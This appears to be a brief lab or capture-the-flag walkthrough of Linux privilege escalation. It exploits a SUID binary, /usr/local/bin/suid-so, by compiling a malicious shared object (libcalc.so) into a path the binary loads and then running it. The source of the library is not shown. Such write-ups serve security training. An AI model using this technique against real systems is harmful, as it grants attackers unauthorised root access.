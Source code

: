 1. The /usr/local/bin/suid-so SUID executable is vulnerable to shared object injection.
2. First create a .config directory.
```console
mkdir /home/user/.config
```
3. Now inject with shared object c-file.
```console
gcc -shared -fPIC -o /home/user/.config/libcalc.so libcalc.c
```
4. Run the file
```console
/usr/local/bin/suid-so
```